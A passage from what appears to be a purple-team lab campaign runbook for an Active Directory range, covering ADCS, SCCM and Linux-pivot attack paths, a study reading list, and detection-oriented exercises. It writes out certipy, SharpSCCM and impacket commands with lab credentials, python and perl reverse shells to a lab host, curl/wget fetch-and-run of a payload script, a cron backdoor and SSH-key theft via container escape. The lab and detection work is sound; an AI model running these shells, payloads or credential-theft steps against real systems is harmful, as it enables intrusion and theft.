| ESC6  | *(CA-level)*              | `EDITF_ATTRIBUTESUBJECTALTNAME2` flag enabled                                                      | CA admin             |
| ESC7  | *(CA-level)*              | `lead_engineering` has ManageCA + Issue rights                                                     | Any user             |
| ESC8  | *(Web Enrollment)*        | CertSrv app pool as NetworkService (NTLM relay)                                                    | Cred coercion        |
| ESC9  | `CADRE-ESC9`              | `NO_SECURITY_EXTENSION` flag (`0x80000`)                                                           | Write on user object |
| ESC10 | *(Registry)*              | `StrongCertificateBindingEnforcement=0` + `CertificateMappingMethods=31`                           | Write on user        |
| ESC11 | *(ICPR)*                  | `0x43E0000` flags — ICPR enabled, integrity removed                                                | Network access to CA |
| ESC13 | `CADRE-ESC13`             | Issuance Policy OID → `Command-Cadre` group (Universal)                                            | Cert enrollment      |
| ESC14 | `CADRE-ESC14`             | Client Authentication + `altSecurityIdentities` mapping                                            | Write on AD object   |
| ESC16 | *(CA-level)*              | `DisableExtensionList` contains SID OID (`1.3.6.1.4.1.311.25.2`) — globally disables SID embedding | ManageCA rights      |


> **Out of scope:** ESC5 (CA object ACL not configured). ESC12 (no formal definition). **Excluded:** ESC15 (Server 2025 rejects v1 schema).

**Common command pattern (ESC1):**

```bash
certipy-ad req -ca cadre-CA -template ESC1-Template -upn administrator@cadre.local \
  -u analyst_dfir@cadre.local -p 'An@lyst_DF1R!' -dc-ip 192.168.77.10
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.77.10 -domain cadre.local
```

---

### Branch C: SCCM Escalation (range.local)


**Diverges from:** Phase 8 (cross-forest access gives `svc_sccm`).
**Converges to:** Phase 8 (NAA extraction gives range.local DA).
**SCCM Site Server:** mbr02 (192.168.77.23) — site code `CAD`.

`svc_sccm` is SCCM Full Administrator on the `CAD` site. From this position:

#### NAA Credential Extraction (WT034) — Fastest to DA

```powershell
SharpSCCM.exe get naa -s mbr02.range.local
# Returns: RANGE\svc_naa : N@A_s3rv1c3!  (svc_naa is Domain Admin)
```

#### Full SCCM Attack Chain


| WT# | Attack            | Command                                                 | What it does                     |
| --- | ----------------- | ------------------------------------------------------- | -------------------------------- |
| 035 | PXE Boot Abuse    | `SharpSCCM get pxe -s mbr02`                            | Extract boot image + creds       |
| 036 | Client Push Relay | `SharpSCCM client-push -s mbr02 -t 192.168.77.22`       | Relay to SMB target              |
| 037 | CMPivot Abuse     | `SharpSCCM invoke cmpivot -s mbr02 -q "..."`            | Arbitrary queries on all clients |
| 038 | App Deployment    | `SharpSCCM exec -s mbr02 -t all -c "..."`               | Deploy malicious app to all      |
| 039 | Site Takeover     | `SharpSCCM invoke script -s mbr02 -t mbr02 -c "whoami"` | Execute on site server           |


#### Additional Auxiliary Attacks


| WT# | Attack         | Relevant Domain                         |
| --- | -------------- | --------------------------------------- |
| 030 | WSUS Abuse     | range.local                             |
| 049 | VSC Enrollment | Certificate enrollment via VSC template |


---

### Branch D: Linux Pivot


**Diverges from:** Phase 3 (MSSQL linked-server recon discovers linux01).
**Converges to:** Phase 6 (domain credentials from linux01 help accelerate child DA).
**Root on linux01 required** — two ways to achieve it.

#### Entry: MSSQL Linked Server Recon (WT044)

```bash
impacket-mssqlclient child.cadre.local/analyst_t1:'T13r_An@lyst!'@192.168.77.22 \
  -windows-auth -query "SELECT * FROM OPENQUERY(\"LINUX01\", 'SELECT name FROM sys.databases')"
```

#### Entry: Podman Container Escape (WT048)

```bash
sudo podman exec cadre-monitor unshare -r id
sudo podman exec cadre-monitor cat /proc/1/root/root/.ssh/id_rsa
```

#### Phase 2: SSSD Ticket Extraction (WT045)

```bash
sudo cat /var/lib/sss/db/cache_cadre.local.ldb > /tmp/sssd_dump.ldb
klist -c /tmp/krb5cc_*
```

#### Phase 3: NFS Kerberos Mount (WT047)

```bash
export KRB5CCNAME=/tmp/krb5cc_stolen
sudo mount -t nfs -o sec=krb5p localhost:/exports/secure-share /mnt/cadre-nfs
```

#### Phase 4: MSSQL Keytab Extraction (WT046)

```bash
sudo klist -ket /var/opt/mssql/secrets/mssql.keytab
```

#### GTFOBins — Linux Privilege Escalation ⏳

**Source:** GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/))

Once on linux01, the following binaries can be used for privilege escalation, file read/write, and reverse shells. All are common on Ubuntu 24.04.

**Reverse shell via python3:**

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.77.60",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

**Reverse shell via perl:**

```bash
perl -e 'use Socket;$i="192.168.77.60";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**File read via find (SUID bypass):**

```bash
find / -perm -4000 -type f 2>/dev/null  # Find SUID binaries
find . -exec /bin/sh \; -quit            # Shell via find
```

**File read via vim:**

```bash
vim -c ':!/bin/sh'                       # Shell escape from vim
vim -c ':!cat /etc/shadow'               # Read files as current user
```

**Command exec via awk:**

```bash
awk 'BEGIN {system("/bin/sh")}'          # Shell via awk
```

**Download via curl/wget:**

```bash
curl http://192.168.77.60:8080/payload.sh -o /tmp/payload.sh && chmod +x /tmp/payload.sh && /tmp/payload.sh
wget http://192.168.77.60:8080/payload.sh -O /tmp/payload.sh && chmod +x /tmp/payload.sh && /tmp/payload.sh
```

**File write via tee:**

```bash
echo "*/1 * * * * root /tmp/backdoor.sh" | sudo tee /etc/cron.d/backdoor
```

**Command exec via env:**

```bash
env /bin/sh                                # Shell via env
```

**Testing notes:**

- linux01 has `vagrant` user with sudo (password: `vagrant`)
- Test each GTFOBins technique from vagrant user context
- Document which ones require sudo vs work as regular user
- Compare with existing Branch D techniques (MSSQL linked server, SSSD, NFS)

---

## 📖 Study Reference Library

> **Purpose:** This section tracks articles, blog posts, and external research that we need to read/study **before** or **during** a specific phase of the campaign. These are not direct attack techniques but contextual reading that deepens understanding of the techniques we do execute.
>
> **Convention:** Each entry marked with 📖 is a study reference. The phase tag tells you WHEN to read it. **Add new study refs here as they're identified in `Campaign_suggestions.md`** so we never lose track.

### Phase 3.5 — Credential Access (read BEFORE testing)

#### 📖 Windows Logon Types & Credential Storage Locations

**Why read:** When harvesting credentials in Phase 3.5, knowing WHERE Windows stores credentials (and which logon type triggers which storage) is critical. Different LSASS protection mechanisms (PPL, Credential Guard) protect different storage locations.

**Source:** [Windows Logon Types — HackTricks](https://book.hacktricks.xyz/windows-hardening/authentication-credentials/windows-logon-types) and [Windows Authentication Architecture — Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-protection-and-management/authentication-protocols-overview)

**Key concepts to internalize:**

- Logon Type 2 (Interactive) → credentials in `lsass` MSV1_0 + WDigest (if enabled)
- Logon Type 3 (Network) → NTLMv1/v2 in network packets
- Logon Type 9 (NewCredentials) → runas /netonly
- Logon Type 10 (RemoteInteractive) → RDP, stored in `tspkg` + `wdigest`
- Credential storage packages in LSASS: `msv1_0.dll`, `wdigest.dll`, `tspkg.dll`, `livessp.dll`, `kerberos.dll`, `cloudap.dll`
- Each can be targeted independently — disabling WDigest in Server 2025 hides Type 2/10 plaintext but Kerberos tickets still expose hashable material

**Action item:** Read the HackTricks Logon Types reference before running any 3.5X technique. Print the table; reference it during 3.5F (LSASS dump) execution to know which package entries to look for in mimikatz output.

#### 📖 Credential Guard Bypass Research

**Why read:** Server 2025 has Credential Guard enabled by default in many enterprise configs. It isolates `lsass.exe` secrets into a VTL (Virtual Trust Level) 1 hypervisor-protected memory region. Standard mimikatz `sekurlsa::logonpasswords` returns nothing against Credential Guard.

**Source:** [Credential Guard — Microsoft Learn](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-overview), [Bypassing Credential Guard — Wdormann / MITRE](https://github.com/Wdormann/Mitigating-Credential-Theft), [ired.team — Credential Guard](https://www.ired.team/offensive-security/credential-access-and-reuse/bypassing-credential-guard)

**Key concepts to internalize:**

- Credential Guard uses **VBS (Virtualization-Based Security)** to isolate LSASS into VTL 1
- Direct LSASS read (OpenProcess + ReadProcessMemory) returns 0-byte buffers
- `lsadump::sam` (registry-based) STILL works because SAM is not VTL-protected
- `lsadump::secrets` (LSA secrets) requires SYSTEM, but the secrets are outside VTL 1
- `dpapi::masterkey` / `dpapi::cred` works on the current user's masterkey (not in VTL 1)
- New bypasses (2024-2025): leaked Kerberos tickets from VTL 0 process memory, `wdigest` cleartext before logoff

**Action item:** Read Wdormann's reference PDF before running 3.5F/G/H/I. Test which mimikatz modules fail on CADRE VMs (likely `sekurlsa::logonpasswords`) and which still work (likely `lsadump::sam`, `lsadump::secrets`, `dpapi::`*).

### Phase 4 — Discovery (read BEFORE testing)

#### 📖 SharpHound Detection — iPurple.team (Tier 2)

**Why read:** When we run SharpHound in Phase 4, we want to understand what we're triggering in the defender's logs. Detection engineers study SharpHound to write better rules; attackers study it to evade them.

**Source:** [SharpHound Detection — iPurple.team](https://ipurple.team/2025/06/sharphound-detection.html)

**Key concepts to internalize:**

- SharpHound's `Stealth` collector uses LDAP `DirSync` control (avoiding `searchrequest` event 1644)
- Default `SMB` session enumeration triggers `Microsoft-Windows-Security-Auditing` 5145 events (network share access)
- `Microsoft-Windows-Security-Auditing` 4662 events fire for every object SharpHound touches (high volume)
- `LocalGroup` collection via `NetLocalGroupGetMembers` triggers 4798/4799 events

**Action item:** Read this BEFORE Phase 4. If we're running SharpHound and want our own rules to fire, we need to know what to look for. Cross-reference with the existing cadre-* SharpHound detection rules (if any).

### Phase 7 — DCSync (read BEFORE testing)

#### 📖 DCSync Attack and Detection — Altered Security

**Why read:** DCSync is the keystone of Phase 7. Understanding the wire protocol (DRSGetNCChanges) and the detection surface (4662 events on `CN=Configuration`) is essential both for executing the attack cleanly and for validating our detection rules.

**Source:** [DCSync Attack and Detection — Altered Security](https://www.alteredsecurity.com/post/dcsync)

**Key concepts to internalize:**

- DCSync uses `DRSGetNCChanges` RPC opnum 3 (not 1) — `DsGetNCChanges` is the legitimate op
- Requires `DS-Replication-Get-Changes-All` (or `Get-Changes` + `Get-Changes-All` ACE pair)
- `Replicating Directory Changes` extended right
- Detection: 4662 events with `AccessMask: 0x100` (Control Access) on `CN=Configuration,DC=...` from non-DC source
- Zeek `dce_rpc.log` shows `opnum: 3` from non-DC → high signal
- 🆕 **Property GUID signature:** Event 4662 with property GUID `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` = DS-Replication-Get-Changes. Alert when this GUID is referenced + subject account is NOT a domain controller → canonical DCSync detection. **Add to Elastic KQL:**
  ```
  event.code:4662 AND winlog.event_data.PropertyGUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 AND NOT SubjectUserName:*$*
  ```

**Action item:** Read before Phase 7. Our existing detection rule (cadre-002 DCSync) should fire on these — verify by capturing a real DCSync. Add the property GUID filter to Elastic KQL as a high-fidelity secondary signal.

### Phase 8 — Forest Trust (read BEFORE testing)

#### 📖 Forest Trust SID Filtering — Dirk-jan Mollema

**Why read:** Forest trust abuse in Phase 8 depends critically on whether SID Filtering is enabled on the trust. Server 2025 forest trusts default to SID Filtering DISABLED (we verified in `01-core-ad.yml:50`). Without this context, the Phase 8 attacks look like magic.

**Source:** [Not A Security Boundary: Kerberos Constrained Delegation Abuse Across Forest Trusts — dirkjanm.io](https://dirkjanm.io/krb-delegation-across-forests/)

**Key concepts to internalize:**

- SID Filtering strips foreign SIDs from incoming tickets at the trust boundary
- When DISABLED (CADRE default), any SID in cadre.local can be embedded in tickets from range.local
- This enables the SID History injection in WT010-012
- Detection: monitor `4662` events on `CN=ForeignSecurityPrincipals` and `5136` events for SID History modifications

**Action item:** Read before Phase 8. Cross-reference with the SID filter footnote in the CAMPAIGNS.md topology diagram.

#### 📖 CVE-2020-0665 — Forest Trust Privilege Escalation — Dirk-jan Mollema

**Why read:** Even when SID Filtering is enabled, CVE-2020-0665 (NTLM relay via MRxSmb10.sys) provides an alternative path. While patched in Server 2025, the study helps understand the threat model.

**Source:** [CVE-2020-0665 — dirkjanm.io](https://dirkjanm.io/cve-2020-0665/)

**Action item:** Reference reading only. CVE-2020-0665 is patched in Server 2025. Include in the "what didn't work" section of the campaign post-mortem.

#### 📖 Windows Security Internals (James Forshaw, 2023) — Reference Book for Kerberos + AD

**Why read:** Forshaw (Project Zero) is the leading Windows security researcher. This book provides the deepest available coverage of the Kerberos protocol (Ch 14), AD security descriptors (Ch 11), access tokens (Ch 4), and security auditing (Ch 9). **Direct relevance:**
- Chapter 14 (Kerberos) explains TGT, TGS-REQ, AS-REP, PAC structure in detail — supports Phase 1 (AS-REP), Phase 2 (Kerberoast), Phase 7 (Golden Ticket), Skipjack (#97), Onelogon (#76)
- Chapter 11 (Active Directory) explains security descriptors, ACE inheritance, default DACLs — supports Branch A (14 ACEs), Branch B (ADCS CA ACLs)
- Chapter 9 (Security Auditing) explains SACL configuration — supports plan1.7 detection engineering

**Source:** `CADRE-Courses/NoStarchPress_extract/WindowsSecurityInternals_11172023/` (1.3MB .txt, 19.6MB .html). See Campaign_suggestions.md #100.

**Concrete techniques extracted from this book (see Campaign_suggestions.md):**
- **#102 dsHeuristics abuse** (Ch 11) — forest-level attribute for AD behavior modification. Read via LDAP in Phase 0.
- **#103 UAC bit exploitation beyond DONT_REQ_PREAUTH** (Ch 10, 11) — enumerate all 20+ UAC flags (TRUSTED_FOR_DELEGATION, TRUSTED_TO_AUTH_FOR_DELEGATION, DONT_EXPIRE_PASSWORD, etc.) in Phase 0/1/5.
- **#104 ms-DS-Machine-Account-Quota check** (Ch 11) — pre-flight check before WT007 RBCD (quota > 0 enables path).
- **#105 SACL/audit policy manipulation** (Ch 9) — DETECT this in plan1.7 (WinSec 4907/4719).

**Action item:** Read **before executing Phase 1, 2, 7, or testing Skipjack/Onelogon** (items #76, #97). PowerShell examples use NtObjectManager module. Treat as the primary reference for Kerberos protocol mechanics in our campaign.

#### 📖 Practical Purple Teaming (Chase Petrey) — Reference Book for Lab + DFIR

**Why read:** Comprehensive guide to running purple team exercises. Direct relevance:
- Chapter 6 (Collecting Telemetry) — patterns for Suricata/Zeek/Sysmon/WinSec correlation that match our plan1.7
- Chapter 8 (Atomic Red Team) — execution framework with 1000+ tests that complement our manual CAMPAIGNS.md commands
- Chapter 9 (Caldera AD Recon) — adversary emulation automation (already in our Track B Parallel Tracks)
- Chapter 10 (Mythic C2) — C2 operations (relevant to Plan 10 + Loki integration)
- Chapter 11 (Reporting + Tracking) — directly relevant to our `tracker.md` workflow + DFIR-Nexus case reports

**Source:** `CADRE-Courses/NoStarchPress_extract/Practical_Purple_Teaming-0642572230173/` (725KB .txt, 770KB .html). See Campaign_suggestions.md #101.

**Concrete techniques extracted from this book (see Campaign_suggestions.md):**
- **#106 Atomic Red Team as validation framework** (Ch 8) — 1000+ pre-built MITRE ATT&CK tests for cross-validation of our manual CAMPAIGNS.md attacks. Run `Invoke-AtomicTest T1003.001,T1558.003,... -ShowDetails` per phase.

**Action item:** Read **before plan1.7 detection engineering work** and **before DFIR-Nexus integration**. Use Ch 6 telemetry patterns + Ch 8 Atomic Red Team tests to validate our detection coverage.

#### 📖 ebooks/ Survey (2026-06-25) — 11 books as study reference

Survey of `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\` (75 .txt files). Term-frequency analysis for AD attack vocabulary + DFIR/detection keywords. See Campaign_suggestions.md "CADRE-Courses/ebooks Survey" section for full survey methodology + deprioritized/skip lists.

**Tier 1 (7 books — full reference):**

#### 📖 SANS Purple Team Tools Poster (Van Buggenhout/Bauters) — Whole kill-chain reference
**Source:** `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\UTF-8=''Digital-Poster_Purple-Team_Tools\` (64 KB). Single highest-value new doc.
**Covers:** BloodHound, Mimikatz, PowerView, PowerUp, C2 matrix (Covenant/Empire/SilentTrinity/Sliver), Suricata, Sigma, Sysmon, AppLocker, OSSEC, OSQuery + FIN6/APT28/APT33 emulation with MITRE technique IDs (T1566.002, T1547.001, T1560.001, T1059.001, T1003.001, T1567.002, T1047).
**Action item:** Read **before starting any new phase** — one-stop reference for red/blue tools. Use FIN6 emulation plan as template if we add a "full-scope attack" scenario.

#### 📖 Practical-Red-Teaming (Sarang Tumne, 2023) — Field-tested red team playbooks
**Source:** `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\Practical-Red-Teaming\` (317 KB). 81 AD attack matches (Mimikatz x34, Rubeus x7, Kerberoast x4, Golden Ticket x3, ProcDump x2, Zerologon).
**Covers:** Phase 1-3 AD attack chains. Likely has Rubeus/Kerberoast/AS-REP walk-throughs.
**Concrete techniques extracted (see Campaign_suggestions.md):**
- **#109 AMSI Bypass** — disable AMSI before PowerShell payload
- **#111 Rubeus/Kerberoast/AS-REP cross-validation** — verify existing Phase 1/2/7 commands
**Action item:** Cross-validate Phase 1-3 commands against book recommendations. Look for missing flags.

#### 📖 Applied Incident Response (Steve Anson) — DFIR textbook
**Source:** `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\Applied Incident Response\` (1002 KB). 146 AD + 410 DFIR matches. 14 chapters (Threat Landscape → IR → Memory/Disk Forensics → Lateral Movement).
**Covers:** Mimikatz x25, Kerberoast x17, schtasks x12, Silver Ticket x7, DCShadow x5, Golden Ticket x5, DCSync x4, Rubeus x3.
**Concrete techniques extracted (see Campaign_suggestions.md):**
- **#110 DCShadow** — inverse of DCSync, push fake SID history via DRS replication
**Action item:** Cross-validate DFIR-Nexus telemetry sources against this textbook's IR chapter coverage.

#### 📖 Gray Hat Hacking 6th Ed (Harper/Harris et al.) — Industry handbook
**Source:** `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\Gray_Hat_Hacking_The_Ethical_Hacker_s_Handbook,_Sixth_Edition,_6th\` (1720 KB). 78 AD matches including AMSI bypass x4.
**Covers:** Mimikatz x32, SharpHound x7, DCSync x5, Rubeus x5, AMSI bypass x4, Kerberoast x4, wmiexec x4, AS-REP x3, Golden Ticket x3.
**Concrete techniques extracted (see Campaign_suggestions.md):**
- **#109 AMSI Bypass** — multiple techniques (amsiInitFailed, AmsiScanBuffer patch)
- **#111 Rubeus/Kerberoast/AS-REP cross-validation** — additional Rubeus flags
**Action item:** Read AMSI bypass chapter before Phase 3 Execution testing. Use as primary reference for any new detection evasion techniques.

#### 📖 Windows Internals Part 1, 7th Ed (Russinovich/Solomon/Ionescu, 2017) — LSASS/AD internals
**Source:** `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\Windows Internals, Part 1, 7th Edition - 2017\` (1720 KB). token x435, LSASS x98, UAC x78, Credential Guard x47, Kerberos x30, AD x23, TGT x18.
**Covers:** Process/thread internals, memory management, security mechanisms (UAC/Credential Guard/VBS), token model, Kerberos protocol details.
**Action item:** Read **before Phase 3.5 (Credential Theft)** + Phase 6 (Lateral Movement). Supplements our existing `WindowsSecurityInternals` with deeper internals.

#### 📖 Cyber Threat Hunting — Hypothesis-driven hunting methodology
**Source:** `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\Cyber_TH\` (838 KB). 507 DFIR mentions. Hypothesis-driven hunting + ML clustering + deception + MITRE ATT&CK mapping.
**Action item:** Read **before plan1.7 detection engineering**. Use as primary methodology reference for hypothesis-driven hunt writing.

#### 📖 Practical Threat Detection Engineering (Mihailescu) — Detection engineering methodology
**Source:** `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\Practical.Threat.Detection.Engineering\` (616 KB). Whisker x3, ProcDump x8, Zerologon. Methodology + Sigma rule writing.
**Action item:** Read **before plan1.7 §16 (Sigma Rule Library)**. Direct reference for Sigma rule authoring best practices.

**Tier 2 (4 books — selective reference):**

#### 📖 Practical AI Security (2025) — LLM security for CADRE-Strike
**Source:** `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\Practical AI Security\` (837 KB, 2025). Prompt injection x72, RAG x112, backdoor x41, supply chain x29, jailbreak x12.
**Covers:** LLM attack surface (prompt injection, RAG poisoning, backdoor, supply chain).
**Action item:** Read **before CADRE-Strike sister repo creation + `claude-code-action` integration**. Provides prompt injection defenses (orthogonal to Item #107 GitHub Actions guardrails).

#### 📖 Brc4 — Dense AD cheat sheet
**Source:** `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\Brc4\` (204 KB). Mimikatz x17, Process Injection x8, DCSync x6, smb x57.
**Action item:** Quick syntax lookup when implementing Phase 3.5 + Phase 5 attacks.

#### 📖 Windows Internals Part 2, 7th Ed (2021) — Storage/I/O/networking/registry internals
**Source:** `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\Windows Internals, Part 2. 7th Edition - 2021\` (1720 KB). Less AD-specific than Part 1.
**Action item:** Reference for plan1.7 EDR rule writing (Sysmon EID 11/12/13/14 — file create/modify/delete/rename).

#### 📖 eb-powershell-in-a-month-of-lunches (Don Jones/Jeff Hicks) — PowerShell fundamentals
**Source:** `C:\STUDY\Github\CADRE-Platform\CADRE-Courses\ebooks\eb-powershell-in-a-month-of-lunches\` (647 KB). WinRM/PSRemoting x9, Get-AdUser x6, Invoke-Command x4.
**Action item:** Reference for Phase 3.5/5+ PowerShell scripting (PSRemoting, WMI, AD module).

### How to use this section

1. **Before each phase**, look for the matching `📖` entry. Read the source article if you haven't.
2. **During the phase**, cross-reference detection sources — the article often lists which logs/RPC opnums to watch.
3. **After the phase**, if the article mentions a technique we didn't execute, decide whether to add to `Campaign_suggestions.md` as a new item.
4. **Adding new study refs:** When `Campaign_suggestions.md` Tier 3 / study-ref items are identified, add them here with a clear phase tag.

---

## Coverage Summary

> **Status notes:** WT028 (null session) ❌ Invalid. WT031 (password spray) ⏳ Pending relocation. WT018/019/020 (coercion) ❌ Non-functional on Server 2025. Remaining 75 attacks active.


| Phase / Branch                | Primary WT#                      | Alternative                                                                                        | What you earn                |
| ----------------------------- | -------------------------------- | -------------------------------------------------------------------------------------------------- | ---------------------------- |
| **P1: Initial Access**        | 003                              | H:063-068 (alt entry)                                                                              | `1nt3rn_Blu3!`               |
| **P2: Credential Harvesting** | 002                              | 042, 043                                                                                           | `s3rv1c3_MSSQL!`             |
| **P3: Execution**             | 041                              | —                                                                                                  | Code exec on mbr01           |
| **P4: Discovery**             | BH + 044                         | —                                                                                                  | Attack surface map           |
| **P5: Coercion + Delegation** | 004, 017                         | 007, 021, 022                                                                                      | `dc02$` TGT                  |
| **P6: DCSync**                | 009                              | —                                                                                                  | Child DA + krbtgt            |
| **P7: Forest Trust**          | 010                              | 011, 012                                                                                           | Root EA + krbtgt             |
| **P8: Cross-Forest + SCCM**   | 033, 034                         | 035-039, 030, 049                                                                                  | Range DA                     |
| **Branch A: ACL Abuse**       | 015                              | 013, 014, 016, 023, 024, 027, 008, plus ACE#2/8-14 (direct DCSync), #15-20 (child), #21-26 (range) | cadre.local DA               |
| **Branch A — Direct DCSync**  | 13+14                            | `eng_agentic` → `DC=cadre`: GetChanges                                                             | **Direct DCSync without DA** |
| **Branch B: ADCS**            | 050-061 (ESC1-14, 12 in-scope)   | —                                                                                                  | Certificate DA               |
| **Branch C: SCCM**            | 034-039                          | 030, 049                                                                                           | Range DA                     |
| **Branch D: Linux Pivot**     | 044, 048, 045, 047, 046          | —                                                                                                  | Domain creds                 |
| **G — Post-Exploit**          | 082, 083, 084-089, 090, 091, 092 | —                                                                                                  | Blended inline               |
| **Total**                     | **75**                           | —                                                                                                  | —                            |


---

## Exercises (Standalone)

> **Copy-paste / scripts:** E → [`Runbooks/CAMPAIGNS-RUNBOOK-e.md`](Runbooks/CAMPAIGNS-RUNBOOK-e.md) · F → [`Runbooks/CAMPAIGNS-RUNBOOK-f.md`](Runbooks/CAMPAIGNS-RUNBOOK-f.md) · G → [`Runbooks/CAMPAIGNS-RUNBOOK-exercises-g.md`](Runbooks/CAMPAIGNS-RUNBOOK-exercises-g.md)

### E — Network Defense (14 exercises)

Run from linux01 or provisioning. Each triggers a Suricata SID or Zeek notice. See `04-automation/campaign-e/` and `docs/internal/plan01-telemetry-catalog/phase0.7-defense-deepening/`.


| WT# | Technique                  | Trigger                                | Detection                                 |
| --- | -------------------------- | -------------------------------------- | ----------------------------------------- |
| 069 | DNS DGA                    | `dnsgen` generates 100+ random domains | SID:1000025 (`cadre-ad.rules`)            |
| 070 | DNS TXT Burst              | `dnsgen` TXT queries to lab domain     | SID:1000026 (`cadre-ad.rules`)            |
| 071 | DNS NXDOMAIN Burst         | `dnsgen` queries for nonexistent TLDs  | SID:1000027 rev:2 + Zeek notice           |
| 072 | DNS TLD Abuse              | `dnsgen` queries for unusual TLDs      | SID:1000028 (`cadre-ad.rules`)            |
| 073 | DNS IP Literal             | `dnsgen` PTR queries for IP literals   | SID:1000029 rev:2 (`cadre-ad.rules`)      |
| 074 | TLS 1.0 Downgrade          | `openssl s_client -tls1` to dc01       | SID:1000010 (`cadre-phaseb.rules`)        |
| 075 | SMB Admin Share            | `smbclient //mbr01/admin$`             | ET:2000012 (`cadre-et-lab.rules`)         |
| 076 | HTTP Suspicious UA         | `curl -A` with suspicious user-agent   | ET:2000041 (`cadre-et-lab.rules`)         |
| 077 | HTTP Exploit Path          | `curl` with exploit-like URL path      | ET:2000070 (`cadre-et-lab.rules`)         |
| 078 | HTTP Content-Type Mismatch | `curl -H "Content-Type: ..."` mismatch | ET:2000072 (`cadre-et-lab.rules`)         |
| 079 | SSH Brute Force            | `hydra` SSH brute (10 attempts)        | ET:2000060 (`cadre-et-lab.rules`)         |
| 080 | Long Connection Beacon     | Sustained TCP connection >300s         | Z9 — `cadre-conn-beacon.zeek`             |
| 081 | Outbound Anomaly           | Connection to unknown external IP      | Z1 — `cadre-outbound.zeek`                |
| 093 | Ransomware Simulation      | AES-256 file encryption on disk        | Sysmon EID 11 + Elastic Defend file event |


### F — Supply-Chain Simulation (10 scenarios)

npm threat emulation on linux01 (Bash) + mbr01 (PowerShell). Detected via auditd (process/file) + Zeek (network). See `docs/internal/npm-supplychain-installation-guide.md`. Attribution: integrates [MHaggis/NPM-Threat-Emulation](https://github.com/MHaggis/NPM-Threat-Emulation) (Shai-Hulud worm emulation).


| F-#  | Scenario                                        | MITRE            | Sensor                                            | Detection Rule                                                 |
| ---- | ----------------------------------------------- | ---------------- | ------------------------------------------------- | -------------------------------------------------------------- |
| F-01 | Malicious postinstall POSTs to webhook          | T1195.002, T1059 | auditd proc_exec (linux01) · Sysmon EID 1 (mbr01) | npm-001: `node/npm child process spawns sh/curl/wget`          |
| F-02 | TruffleHog download + secret scan               | T1552, T1105     | auditd execve + Zeek HTTP/SSL                     | npm-002: `trufflehog binary download or execution`             |
| F-03 | Workflow injection (`.github/workflows/`)       | T1195, T1647     | auditd file-watch · Sysmon EID 11                 | npm-003: `.github/workflows file written outside git checkout` |
| F-04 | Package patching (`node_modules/*/index.js`)    | T1565.001        | auditd file-watch · Sysmon FileCreate EID 11      | npm-004: `write to node_modules/* during npm process`          |
| F-05 | Multi-stage `/tmp` download+exec                | T1105, T1059     | auditd exec + file-watch · Zeek conn              | npm-005: `executable written to /tmp then executed`            |
| F-06 | Worm `npm publish` across packages              | T1080            | auditd/Sysmon exec of `npm publish`               | npm-006: `npm publish burst (>2 in 60s)`                       |
| F-07 | Cloud metadata probe (169.254.169.254)          | T1552.005        | auditd execve of curl · Zeek conn                 | npm-007: `connection attempt to 169.254.169.254`               |
| F-08 | Repo weaponization (fake tokens to `data.json`) | T1199, T1567     | git exec + file creation                          | npm-008: `git commit containing token-like strings`            |
| F-09 | Bundle worm chain (`bundle.js` → `/tmp/*.sh`)   | T1059, T1105     | auditd exec chain · Sysmon                        | npm-009: `bundle.js spawns /tmp/*.sh or /tmp/*.ps1`            |
| F-10 | Webhook exfil (all scenarios — network rule)    | T1567.*          | Zeek `http.log` POST · Suricata                   | npm-010: `POST to non-corporate host with base64 body`         |
| F-11 | Cache poisoning (CI side analog)                | T1195.001        | auditd file-watch · Sysmon EID 11                 | npm-011: `write to .npm/_cacache outside install workflow` (held — Plan 0.8 expansion, see Campaign_suggestions #107) |
| F-12 | Tag pollution analog (`npm dist-tag add`)       | T1195.001        | auditd exec of `npm dist-tag`                    | npm-012: `npm dist-tag add to existing tag name` (held — Plan 0.8 expansion, see Campaign_suggestions #107) |

> **GitHub Actions Supply-Chain Patterns (Plan 0.8 expansion + CADRE-Strike defensive):** F-11/F-12 are npm-side analogs of the GitHub Actions supply-chain attack patterns documented in [GMO Flatt Security blog Part 1](https://blog.flatt.tech/entry/2026-github-actions-security-part1) (2026-06-24). 3 attack patterns: vulnerable trigger injection (Ultralytics Dec 2024, nx Aug 2025), tag pollution + Imposter Commits (tj-actions/changed-files Mar 2025, trivy Feb 2026), AI agent over-permission (cline Feb 2026). F-11/F-12 are NOT yet integrated into Plan 0.8 playbook — held for Plan 0.8 expansion. See Campaign_suggestions.md #107 + CAMPAIGNS-METADATA.md "Mechanics: Item #107" for full Mechanics stub. Also applies to CADRE-Strike (Track H) as defensive guardrails when `claude-code-action` or similar is integrated — see Track H entry.

---

### G — Pre-Auth DC Exploits (Standalone)

These exercises demonstrate what happens when a critical CVE hits a DC. Run ONLY with snapshots in place — they crash the target. NOT part of main campaign (would short-circuit Phases 1-3).

#### CVE-2026-41089 — Netlogon CLDAP Stack Buffer Overflow (CVSS 9.8 CRITICAL) 🆕 READY

**Source:** https://github.com/0xABCD01/CVE-2026-41089 (PoC by 0xABCD01, 171 stars, 60 forks, MIT license). Cloned to `docs/internal/references/sources/cve-2026-41089/`.
